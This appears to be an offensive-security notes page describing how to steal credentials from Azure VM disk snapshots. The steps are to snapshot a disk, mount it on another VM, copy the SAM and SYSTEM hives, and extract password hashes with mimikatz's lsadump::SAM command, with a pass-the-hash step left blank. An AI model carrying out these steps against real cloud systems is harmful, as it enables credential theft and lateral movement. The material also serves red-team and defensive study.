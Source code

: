 # VHD Analysis

## VHD Analysis

VHD = virtual disk

From a VHD snapshot or backup, it's possible to remount it and steal data.

**Depends on Permissions** 

| Role | Actions |
| :--- | :--- |
| Reader | Can't execute command or download VHD |
| Contributor | Can run commands and create Snapshots |
| Owner | Can run commands and create Snapshots |
| Service Accounts | Can sometimes access to VHDs |

### Create a VM snapshot

From the Azure portal, locate the VM, select the Virtual Disk and create a snapshot

![](../../../../../.gitbook/assets/image%20%28261%29.png)

![](../../../../../.gitbook/assets/image%20%28287%29.png)

![](../../../../../.gitbook/assets/image%20%28277%29.png)

Since the size can be really big, the best way to analyze it is to create an another VM and mount the snapshot from there :

![](../../../../../.gitbook/assets/image%20%28158%29.png)

* Add the snapshot as a Disk on the analysis VM :

![](../../../../../.gitbook/assets/image%20%28128%29.png)

* Save 

![](../../../../../.gitbook/assets/image%20%2843%29%20%281%29.png)

* On the second VM, disk have been added

![](../../../../../.gitbook/assets/image%20%28283%29.png)

### Mount the Disk

![](../../../../../.gitbook/assets/image%20%28210%29.png)

### Copy SAM and SYSTEM files

![](../../../../../.gitbook/assets/image%20%28220%29.png)

### Upload the file on the windows VM

```csharp
 Get-SCPFolder -ComputerName "REMOTE_TARGET" -RemoteFolder "/root/pwn" -LocalFolder "C:\Users\b3v1l\Desktop\tools\mimikatz_trunk\x64\sam" -Credential $creds
```

### Extract Hashes using mimikatz

```csharp
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\tools\mimikatz_trunk\x64\sam\SAM /SYSTEM:C:\Users\b3v1l\Desktop\tools\mimikatz_trunk\x64\sam\SYSTEM
```

![](../../../../../.gitbook/assets/image%20%28304%29.png)

### Pass The Hash

...

### Resources

{% embed url="https://github.com/darkoperator/Posh-SSH" %}



{% embed url="https://github.com/gentilkiwi/mimikatz" %}







